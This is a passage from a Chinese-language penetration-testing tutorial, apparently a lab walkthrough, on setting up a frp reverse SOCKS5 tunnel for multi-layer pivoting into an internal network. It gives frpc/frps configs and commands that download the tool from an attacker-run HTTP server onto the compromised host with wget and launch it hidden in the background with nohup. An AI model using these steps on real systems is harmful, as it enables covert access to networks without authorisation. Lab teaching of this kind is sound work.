 客户端（client）：ubuntu-web1(192.168.1.129)  
会将客户端中所有的流量通过本地的一个随机端口转发给 vps 的 7000 端口，我们访问 vps 的 7777 端口就相当于访问客户端的 7000 端口

```bash
frpc.ini

[common]
server_addr = 192.168.1.128
server_port = 7000

[plugin_socks]
type = tcp
remote_port = 7777
plugin = socks5

上传 frp

tar czvf 1.tgz frp_0.49.0_linux_amd64       # 压缩 frp(192.168.1.128 终端)
python3 -m http.server  (192.168.1.128 终端)
wget http://192.168.1.128:8000/1.tgz;tar -zxvf 1.tgz    (192.168.1.129 终端)
启动
chmod +777 frpc
nohup ./frpc -c ./frpc.ini >/dev/null 2>&1 &
```

[![](assets/1708094050-51212098f0f0ee3d1d0a9aa552997fa2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621145249-3c3ecbe6-1000-1.png)

-   第二层代理（反向）：  
    服务端（server）：ubuntu-web1(192.168.52.10)

```bash
frps.ini

[common]
bind_addr = 192.168.52.10
bind_port = 7000

启动
chmod +777 frps
./frps -c ./frps.ini
```
